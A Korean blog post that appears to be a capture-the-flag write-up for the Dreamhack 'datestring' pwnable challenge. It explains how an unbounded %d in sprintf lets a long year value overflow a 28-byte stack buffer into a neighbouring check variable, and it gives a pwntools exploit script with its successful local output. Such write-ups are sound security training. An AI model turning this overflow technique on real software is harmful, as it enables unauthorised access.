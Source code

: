 ```yaml
---
layout: post
title: "[Dreamhack] datestring"
date: 2025-06-10 12:00 +0900
category: ['Syshack']
tag: ['system', 'dreamhack', 'hacking', 'pwn', 'pwnable', '드림핵', '보안', '시스템', '시스템해킹', '포너블', '해킹']
image: /assets/img/post/datestring/image0.png
---
```


> **Dreamhack Syshack Lv.1**

## P1. 문제분석

이번 문제는 소스코드를 제공하지 않는다. ida로 바이너리를 살펴보자.

디스어셈블 코드

```c
  v17 = 0;
  setup(argc, argv, envp);
  puts("Calendar v0.1");
  printf("Year: ");
  __isoc99_scanf("%d", &v8);
  v14 = v8 - 1900;
  printf("Month: ");
  __isoc99_scanf("%d", &v9);
  v9 = (v9 - 1) % 12;
  v13 = v9++;
  printf("Day: ");
  __isoc99_scanf("%d", &v10);
  v10 = (v10 - 1) % 31 + 1;
  v12 = v10;
  printf("Hour: ");
  __isoc99_scanf("%d", &v7);
  v7 %= 24;
  v11[2] = v7;
  printf("Minute: ");
  __isoc99_scanf("%d", &v6);
  v6 %= 60;
  v11[1] = v6;
  printf("Second: ");
  __isoc99_scanf("%d", &v5);
  v5 %= 60;
  v11[0] = v5;
  if ( v9 > 2 )
    v3 = v8 - 2;
  else
    v3 = v8--;
  v10 += v3;
  v15 = (v8 / -100 + v8 / 4 + 23 * v9 / 9 + v10 + 4 + v8 / 400) % 7;
  calendar(v16, v11);
  printf("Formatted date: %s", v16);
  if ( v13 == 11 && v12 == 25 && !v15 && v17 )
  {
    puts("A Present for Admin!");
    flag();
  }
  return 0;
```

많은 연산을 실행 중이지만

```c
  if ( v13 == 11 && v12 == 25 && !v15 && v17 )
  {
    puts("A Present for Admin!");
    flag();
  }
```

위 조건문으로 v13, v12, v15, v17가 중요한 것을 알 수 있다.

각 변수가 어떻게 초기화 되는지 확인해보자.

```c
// v13
printf("Month: ");
__isoc99_scanf("%d", &v9);
v9 = (v9 - 1) % 12;
v13 = v9++;

// v12
printf("Day: ");
__isoc99_scanf("%d", &v10);
v10 = (v10 - 1) % 31 + 1;
v12 = v10;

// v15 초기화 전 변동사항
if ( v9 > 2 )
    v3 = v8 - 2;
else
    v3 = v8--;
v10 += v3;
// v15 <- v8 = year_input
v15 = (v8 / -100 + v8 / 4 + 23 * v9 / 9 + v10 + 4 + v8 / 400) % 7;

// v17
v17 = 0;
```

v15을 제외한 변수들의 초기화는 직관적으로 알기 쉽게 되어있다. 위 조건을 통과하도록 각 입력에 맞는 값을 찾아보면 다음과 같다.

`year(v8): ?? -> v15 = (v8 / -100 + v8 / 4 + 23 * v9 / 9 + v10 + 4 + v8 / 400) % 7 = 0`

`Month(v9): 12 -> v13 = 11`

`Day(v10): 25 -> v12 = 25`

year 같은 경우 `!v15` 로 사용되기 때문에 계산식의 값이 0이 되는 값을 구해야 한다. 그렇기 때문에 나중에 계산하는 것으로 하고 `v17` 변수에 대해 더 알아보자.

`v17` 변수는 `int v17; // [rsp+8Ch] [rbp-4h]` 메모리 상에서 rbp-4에 위치한다.

바로 근접한 변수로는 `char v16[28]; // [rsp+70h] [rbp-20h]` 변수가 있는데 `calendar(v16, v11);` 사용자 함수의 인자로써 사용된다.

이 함수에 대해 더 알아보자

함수 원문

```c
int calendar(char *v16, _DWORD *v11)
{

/*
 *	~~ 중략 ~~
 */

  return sprintf(
           v16,
           "%.3s %3s%3d %.2d:%.2d:%.2d %d\n",	// 포멧 문자열
           (const char *)&v4[v11[6]],			// 요일
           (const char *)&v3[v11[4]],			// 월
           v11[3],								// 일
           v11[2],								// 시
           v11[1],								// 분
           *v11,								// 초
           v11[5] + 1900);						// 년
}
```

v16에 포멧 문자열을 초기화하는 함수인 것을 알 수 있다.

여기서 발생하는 문제점이 있는데 포멧 문자열의 마지막 문자를 보면 `%d` 인 것을 알 수 있다. 자릿수를 정해주지 않았기 때문에 년 입력에 큰 수를 입력해도 `int` 자료형의 크기에만 만족한다면 `v16` 변수에 삽입되는 것을 알 수 있다.

`v16` 변수의 크기는 `char[28] -> 28byte` 이고 년 입력에 8자리 이상 입력하게 되면 `\n` <- 줄바꿈 문자를 포함하며 `29 byte`의 문자열이 삽입되게 된다. 해당 동작은 `v16`이 정의된 스택 크기를 넘기 때문에 근접한 변수인 `v17`의 값을 바꾸게 된다.

위 덮어쓰기 전략으로 `v17 = 0`으로 초기화되어 거짓이던 조건을 참으로 바꿀 수 있다.

### P1-1. 년도 계산하기

이제 `v15`의 값을 계산해보자.

`v8(year)` 값을 위 전략을 사용하기 위해 8자리 이상에서 조건에 맞는 식을 계산해보자

```c
#include <stdio.h>

int main()
{
    for (int i = 10000000; i <= 0x0098985f; i++)
    {
    	// v8 -> i, v9 -> 12, v10 -> 25 + i - 2
        if (((i / -100 + i / 4 + 23 * 12 / 9 + 25 + i - 2 + 4 + i / 400) % 7) == 0)
        {
            printf("%d\n", i);
        }
    }
    return 0;
}
```

위 프로그램으로 `10000005` 라는 수가 구해졌다.

이제 모든 수가 구해졌으니 공격 코드를 작성해보자.

## P2. Exploit code

```python
from pwn import *

e = ELF('./datestring')
p = e.process()

p.sendlineafter(b'Year: ', str(10000005).encode())
p.sendlineafter(b'Month: ', str(12).encode())
p.sendlineafter(b'Day: ', str(25).encode())
p.sendlineafter(b'Hour: ', str(23).encode())
p.sendlineafter(b'Minute: ', str(59).encode())
p.sendlineafter(b'Second: ', str(59).encode())

p.interactive()
```

```bash
$ python3 ./datestring/ex1.py
[*] './datestring/datestring'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './datestring/datestring': pid 33964
[*] Switching to interactive mode
Formatted date: Sun Dec 25 23:59:59 10000005
A Present for Admin!
$ ls
a       datestring      datestring.id1  datestring.nam  ex.py
calc.c  datestring.id0  datestring.id2  datestring.til  ex1.py
```
로컬 머신에서 성공했으니 문제 서버를 공격해보자.

![](/assets/img/post/datestring/image1.png)

**Clear!**